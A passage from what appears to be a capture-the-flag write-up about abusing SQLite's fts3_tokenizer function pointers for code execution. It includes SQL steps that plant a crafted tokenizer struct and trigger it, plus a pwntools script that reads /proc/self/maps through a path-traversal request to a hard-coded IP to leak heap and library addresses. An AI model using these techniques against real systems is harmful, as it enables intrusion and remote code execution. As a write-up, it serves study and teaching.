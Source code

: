 Since we are dealing with function pointers, getting a code execution from this should be fairly easy. Suppose we have a heap address leak, we could craft a `sqlite3_tokenizer_module` struct in heap with

```sql
SELECT replace(hex(zeroblob(10000)), '00', x'sqlite3_tokenizer_module struct here');
```

Then load the fts3_tokenizer module from heap with

```sql
    SELECT fts3_tokenizer('<tokenizer name>', x'<crafted sqlite3_tokenizer_module_address>');
```

Trigger code execution via crafted function pointers from `sqlite3_tokenizer_module` struct,

- `xCreate` with `CREATE VIRTUAL TABLE pwn USING fts3(tokenize=<tokenizer name>);`
- `xDestroy` with `DROP TABLE pwn;`
- `xOpen` with `INSERT INTO pwn VALUES(x'values here');`

### **builtin_http**

To pwn this, first we need a leak. read `/proc/self/maps` to get heap and lib address leak via LFI in `/static/../../../../` endpoint.

```py
from pwn import *
HOST, PORT = ('34.87.169.10', 31339)

def read_file(path):
    r = remote(HOST, PORT)
    r.send(b'GET /static/../../../../../../../../../../../../..%b HTTP/1.1\r\n\r\n' % path)
    r.recvuntil(b'text/html\n\n')
    res = r.recvall()
    r.close()
    return res

heap_base = 0
sqlbase = 0

def read_map():
    global heap_base, sqlbase
    maps = read_file(b'/proc/self/maps')[:-1]
    maps = maps.split(b'\n')
    for line in maps:
        if b'[heap]' in line:
            heap_base = int(line.split(b'-')[0], 16)
        elif b'libsqlite3' in line:
            sqlbase = int(line.split(b'-')[0], 16)
            break
def exploit():
    read_map()
    print("[!] heap %x" % heap_base)
    print("[!] libsqlite3.so %x" % sqlbase)
```
